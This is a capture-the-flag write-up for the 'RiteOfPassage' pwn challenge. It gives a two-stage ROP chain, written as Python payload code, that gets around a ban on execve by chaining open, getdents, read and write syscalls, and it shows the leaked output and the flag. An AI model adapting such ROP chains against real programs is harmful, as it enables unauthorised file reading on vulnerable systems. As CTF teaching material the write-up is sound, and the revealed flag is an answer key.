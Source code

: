 # RiteOfPassage

### Category

Pwn

### Description

You think you know how to ROP ?
The flag is in the flag/ folder.
Oh and uuuh, I think I might have forbidden execve and execveat..
Note : Use the SUID wrapper to flag 

Format : **Hero{flag}**  
Author : **iHuggsy**

### Write up

We know that execve and exeveat are forbidden.

We can do this in two steps :

-- Step 1

Syscalls :
-   Open (the flag folder)
-   Getdents (on the fd)
-   Write (getdents to stdout)

```py
    """
    Open "flag"
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # -> Start of .data
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0067616c66) 
    PAYLOAD += p64(mov_rdi_eax) # -> Write "flag" in .data
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000002) # 0x2 : Open
    PAYLOAD += p64(pop_rdx)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(pop_rsi)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(syscall)

    """
    Getdents (from .)
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000003) # Usually, fd is 3
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000004e) # 0x4e : Getdents
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # -> Start of .data, overwrite ;)
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x00000056) # -> For 0x56 bytes
    PAYLOAD += p64(syscall)

    """
    write getdents
    """

    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000001) # 0x1 : write
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000001) # 1 : stdout
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # Start of .data
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x000000056) # Write 0x56 bytes

    PAYLOAD += p64(syscall) 

    # Clean exit (1337)
    PAYLOAD += p64(xor_rax)
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000000000003c) # 0x3c : exit
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000001337) # 1337 
    PAYLOAD += p64(syscall) 

```
We get the file name in here ! ```hello```.
> b">>>I am now going to translate your sentence to computerWe actually don't care about what you think. Bye.\n\x8a\xb7,\x00\x00\x00\x00\x00\xb5\xfe\x99B\x9b\xb5\xb8y \x00hello\x00\x00\x10\x00\x00\x00\x00\x00\x08\x89\xb7,\x00\x00\x00\x00\x008\xf4`b\xcb\xc7\x0cz\x18\x00.\x00\x00\x00\x00\x04\x80\xb7,\x00\x00\x00\x00\x00\xff\xff\xff\xff\xff\xff\xff\x7f\x18\x00..\x00\x00\x00\x04\x00\x80\x00\x00\x00\x00"

-- Step 2

Syscalls :
-   Open (the flag/hello file)
-   Read (the flag from the fd)
-   Write (content of the file to stdout)

```py

    """
    Open "flag/hello"
    """
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # Start of .data again
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x67616c66) 
    PAYLOAD += p64(mov_rdi_eax) # Write "flag"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af004) # Start of .data + 4
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x6c65682f) 
    PAYLOAD += p64(mov_rdi_eax) # Write "/hel"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af008) # Start of .data + 8
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x6f6c)
    PAYLOAD += p64(mov_rdi_eax) # Write "lo\0\0"

    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000004af000) # Start of our null terminated string

    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000002) # 0x2 : Open
    PAYLOAD += p64(pop_rdx)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(pop_rsi)    
    PAYLOAD += p64(0x00000000) # NULL
    PAYLOAD += p64(syscall)

    

    """
    read flag/hello
    """
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000000000000) # 0x0 : read
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000003) # fd is usually 3 :)
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # -> Overwrite start of .data
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x00000050) # read 0x50
    PAYLOAD += p64(syscall)


    """
    write to stdout
    """


    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x00000001) # 0x1 : write
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000001) # 1 : stdout
    PAYLOAD += p64(pop_rsi)
    PAYLOAD += p64(0x00000000004af000) # start of .data (containing the flag)
    PAYLOAD += p64(pop_rdx)
    PAYLOAD += p64(0x000000050) # 0x50
    PAYLOAD += p64(syscall)

    # Exit
    PAYLOAD += p64(xor_rax)
    PAYLOAD += p64(pop_rax)
    PAYLOAD += p64(0x0000000000003c) 
    PAYLOAD += p64(pop_rdi)
    PAYLOAD += p64(0x00000000001337)
    PAYLOAD += p64(syscall)
```

And sure enough
> b">>>I am now going to translate your sentence to computerWe actually don't care about what you think. Bye.\nHero{R0P_m4sT3R_1n_S1gHt}\n\x00\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00\x80\x00\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00\x00\x00"

### Flag

Hero{R0P_m4sT3R_1n_S1gHt}
